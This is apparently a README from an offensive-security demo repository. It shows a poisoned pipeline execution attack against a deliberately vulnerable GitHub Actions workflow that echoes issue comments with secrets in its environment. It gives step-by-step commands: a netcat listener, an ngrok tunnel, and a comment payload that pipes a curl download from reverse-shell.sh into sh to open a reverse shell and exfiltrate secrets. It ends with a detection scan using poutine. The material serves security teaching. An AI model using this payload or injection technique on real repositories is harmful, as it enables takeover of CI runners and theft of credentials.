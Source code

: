 # Github Actions: Poisoned Pipeline Execution


This folder showcases an attack against a GitHub Action Pipeline vulnerable to [*PPE*](https://github.com/R3DRUN3/sploitcraft/tree/main/ci-cd/ppe). 

### Demo Objective 

The objective of this demo is to illustrate how an attacker can exploit a vulnerable GitHub Action setup to:

- Execute remote code.

- Exfiltrate sensitive secrets from the GitHub runner environment.

## Prerequisites 

To run this demo, ensure you have:

- Access to a GitHub repository with GitHub Actions enabled.


## Instructions 
 
1. **Repo Creation** : Create a new Github repo and add some github action's secrets (eg `AWS_API_KEY`, `MYSQL_CONNECTION_STRING` and `GENERIC_TOKEN`)  
 
2. **Configuration** : Inside the new repo, create the `.github/workflows` folder.
 
3. **Action Manifest** : Inside the workflow folder, create a yaml file called `vulnerable.yaml` and copy the following manifest inside:  
```yaml
name: command-injection-demo
on:
  issue_comment:
    types: [created]
jobs:
  auto-manage-new-issue:
    runs-on: ubuntu-latest
    steps:
      - name: Retrieve Issue Information
        run: |
          echo ${{ github.event.comment.body }}
        env:
          AWS_API_KEY: ${{ secrets.AWS_API_KEY }}
          MYSQL_CONNECTION_STRING: ${{ secrets.MYSQL_CONNECTION_STRING }}
          GENERIC_TOKEN: ${{ secrets.GENERIC_TOKEN }}
```  

This GitHub Action workflow (`command-injection-demo`) triggers on the creation of new comments inside an issue.  
Upon activation, it retrieves the body of the comment (`${{ github.event.comment.body }}`) and echoes it directly within the workflow execution environment.  
The vulnerability lies in the lack of input sanitization for `${{ github.event.comment.body }}`.  
Since the workflow echoes this variable without any validation or sanitization, an attacker can potentially pipe and inject arbitrary operating system commands into the workflow.  
By crafting a malicious comment, an attacker could exploit this vulnerability to execute unauthorized commands within the GitHub Actions environment and exfiltrate the secrets (`AWS_API_KEY`, `MYSQL_CONNECTION_STRING` and `GENERIC_TOKEN`).  


 
4. **Exploit** : Create a new issue and add a new comment to it, see what happens:  

![legit-comment](./images/legit_issue_comment.png)  
![legit-action-run](./images/legit_action_run.png)   
 
As you can see the action was triggered by our comment and printed out the body of the comment.  

At this point we can proceed to poison the execution 😈

In order to do that we will use [*ngrok*](https://ngrok.com/) (you can also use [*Cloudflare Tunnels*](https://www.cloudflare.com/products/tunnel/) or whatever tool fit the need to seamlessy expose a local service to the internet).  


Open a new nectcat listener on your local machine:  
```sh
nc -lnvp 1337
```  

Forward an ngrok tcp tunnel on the same port: 

```sh
ngrok tcp 1337
```  

Now, retrieve the `Forwarding` address (DNS name) from ngrok output and with that we can construct our malicious payload (you can also use ngrok public IP instead of the dns name).  

Our payload will be:  
```console
"" && sh -c 'curl https://reverse-shell.sh/<NGROK-IP-OR-DNS-NAME>:<NGROK-PUBLIC-PORT> | sh'
```  


This payload will be the body of our new malicious comment on the GitHub issue:  
![payload](./images/ppe_payload.png)  

When we leave this comment, it will trigger the GitHub Action, and that payload will be injected directly into the runner (agent) of the action and executed, thereby opening a reverse shell within the remote environment of the pipeline.    
From there, we will have the ability to exfiltrate secrets.    
Watch a demonstration of the entire workflow in the following video:  


https://github.com/R3DRUN3/sploitcraft/assets/102741679/ffd8696e-1271-469e-9629-38c3b087f28c  

</br>

We can inspect repositories to find possible misconfiguration leading to PPE with [poutine](https://github.com/boostsecurityio/poutine) (or other tools mentioned [here](https://github.com/myugan/awesome-cicd-security?tab=readme-ov-file#tools)):  

```console
docker run -e GH_TOKEN ghcr.io/boostsecurityio/poutine:latest analyze_repo r3drun3/vuln

Rule: Injection with Arbitrary External Contributor Input
Severity: warning
Description: The pipeline contains an injection into bash or JavaScript with an expression 
that can contain user input. Prefer placing the expression in an environment variable 
instead of interpolating it directly into a script.
Documentation: https://boostsecurityio.github.io/poutine/rules/injection

+--------------+--------------------------------+----------------------------------------------------------------------------+
|  REPOSITORY  |            DETAILS             |                                    URL                                     |
+--------------+--------------------------------+----------------------------------------------------------------------------+
| r3drun3/vuln | .github/workflows/issue.yaml   | https://github.com/r3drun3/vuln/tree/HEAD/.github/workflows/issue.yaml#L10 |
|              | Job: auto-manage-new-issue     |                                                                            |
|              | Step: 0                        |                                                                            |
|              | Sources:                       |                                                                            |
|              | github.event.comment.body      |                                                                            |
|              |                                |                                                                            |
+--------------+--------------------------------+----------------------------------------------------------------------------+
```










